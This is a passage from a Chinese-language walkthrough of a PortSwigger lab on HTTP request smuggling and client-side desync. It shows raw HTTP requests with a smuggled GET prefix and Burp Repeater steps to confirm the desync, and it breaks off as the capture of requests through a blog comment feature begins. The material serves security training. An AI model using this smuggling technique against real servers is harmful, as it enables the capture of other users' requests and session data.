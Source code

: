```plain
GET / HTTP/1.1
Host: 0a40005204ca7973811de89500e000af.h1-web-security-academy.net
Content-Length:110
```

[![](assets/1705301772-d76cf2d6c3fd12a7d4d0c7f5a02cb1da.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240114183241-3f4098fe-b2c8-1.png)  
随后重新启用"Content-Length"长度更新选项并在正文中添加任意请求走私前缀，同时更改 Connection 为"keep-alive"

```plain
POST / HTTP/1.1
Host: 0a40005204ca7973811de89500e000af.h1-web-security-academy.net
Connection:keep-alive
Content-Length:

GET /hopefully404 HTTP/1.1
Foo: x
```

在恶意请求之后将"GET /"的正常请求添加到选项卡组并使用发送按钮旁边的下拉菜单将发送模式更改为按顺序发送组 (single connection)  
[![](assets/1705301772-50fad2cf1699ade60d498edeee132be7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240114183310-5042e6b6-b2c8-1.png)  
发送序列并检查响应，如果对第二个请求的响应与您所期望的走私前缀相匹配，则可以确认您可以导致去同步  
[![](assets/1705301772-54f608cd5429633e0f325436e02b3e25.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240114183322-575088b4-b2c8-1.png)  
随后回到 Burp 的浏览器中，访问其中一篇博客文章并观察到有一个包含评论功能，从 Proxy>HTTP 历史记录中找到"GET /en/post?postId=x"，在 Burp Repeater 中使用上一节中的 desync 矢量尝试在注释中捕获您自己的任意请求，例如：
